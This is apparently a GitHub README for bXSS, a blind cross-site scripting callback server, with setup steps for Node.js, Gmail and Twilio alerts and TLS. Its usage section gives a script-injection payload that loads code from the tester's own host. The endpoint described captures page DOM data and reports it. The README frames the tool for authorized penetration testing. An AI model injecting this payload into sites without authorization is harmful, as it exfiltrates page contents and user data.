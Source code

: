 # bXSS

bXSS is a simple Blind XSS application adapted from https://cure53.de/m, you can read about it here.

![Gif of BlindXSS](./Images/cure53.gif)

bXSS will:

* [Email when the resource has been loaded via nodemailer ](./Images/email.jpg)
* [Send a SMS via Twilio](./Images/sms.jpg)
* [Save to disk to review later (If necessary)](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) 
* Node.js and Express
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = Your telephone number
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Gmail
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path
        * config.letsEncrypt.privateKey = $Path
        * config.letsEncrypt.privateKey = $Path
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m">
````

The application has three core functions

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* Everything else - Loads alert(1)


# Contribute?

This was more of a fun personal project after seeing the example from [Mario Heiderich's](https://twitter.com/0x6D6172696F) AppSec Europe training and I wanted to have a reason to write more JavaScript and use some ES6. 

This is perfect for my needs, and maybe yours too; I would recommend looking at [Sleepy Puppy](https://github.com/Netflix/sleepy-puppy) or [XSS Hunter](https://xsshunter.com/features) to see if they are appropriate as they are extremly easy to get started with, especially XSS Hunter's online version. 

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
